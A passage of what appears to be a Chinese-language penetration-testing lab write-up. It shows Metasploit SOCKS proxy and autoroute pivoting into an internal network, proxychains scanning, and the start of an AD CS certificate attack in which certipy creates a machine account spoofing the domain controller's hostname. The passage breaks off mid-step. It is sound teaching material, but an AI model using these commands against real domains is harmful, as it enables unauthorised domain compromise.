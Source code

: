 4. 使用 msf 中 socks_proxy 模块进行代理（内网穿透）。

   （1）挂起此会话，命令为 background。以下是一些关于 meterper 中 session 的命令演示：

   ![image-20230311145409487](https://s2.loli.net/2023/03/11/IXEmUDr9nP3xbSZ.png)

   （2）使用 socks_proxy 模块配置代理。

   ```
   use auxiliary/server/socks_proxy
   set srvhost 127.0.0.1
   set srvport 1080
   run
   ```
```
   
![image-20230311145508917](https://s2.loli.net/2023/03/11/2iIFx1dBfhc5q9M.png)
   
（3）重新进入 session 2 ，设置路由。
   
```
   sessions -i 2
   run autoroute -s 10.10.10.0/24   # 设置到192.168.219.0网段的路由
   run autoroute -p    # 查看路由
```
   
![image-20230311145623835](https://s2.loli.net/2023/03/11/C1XzVYusGFZhQAr.png)
   
（4）修改 proxychains的配置文件，vim /etc/proxychains4.conf 。
   
```
在最后一行添加

   socks5 127.0.0.1 1080
```
   
（5）使用nmap来验证，若直接使用nmap无法扫描dc主机，而使用proxychains代理后在进行扫描即可成功扫描端口。
   
   ![image-20230311150004863](https://s2.loli.net/2023/03/11/BwpPHr1AajgsQbu.png)


##### 3.3.3 漏洞利用

1. 查看CA名称，在非颁发机构的机器上使用 certutil 命令，转储配置信息或文件，查看到 CA 相关信息。从这里我们可以看到CA名称为 dc。

   ![image-20230311150115309](https://s2.loli.net/2023/03/11/p8ARbJ3NKOXx24U.png)

   综上我们现在得到的信息如下：

```
   域：woniu.com
   DC：dc.woniu.com （IP：10.10.10.133）
   CA：woniu-DC-CA
   ```

2. 使用certipy，创建机器账户，并设置dNSHostName属性为域控服务器域名。

   ```
   proxychains certipy account create -u zhangsan@woniu.com -p p-0p-0p-0 -dc-ip 10.10.10.133 -user zsmachine -pass p-0p-0p-0 -dns 'dc.woniu.com'
   ```

   ![image-20230221200034758](https://woniumd.oss-cn-hangzhou.aliyuncs.com/security/zhengyu/202302212000185.png)

3. 使用 certipy 为机器账户 zsmachine 申请证书，因为前面已经将 zsmachine 的 dNSHostName 改为  dc.woniu.com ，所以这里申请的证书是 dc 的。 （这里需要设置kali的dns服务器为域控）
   ```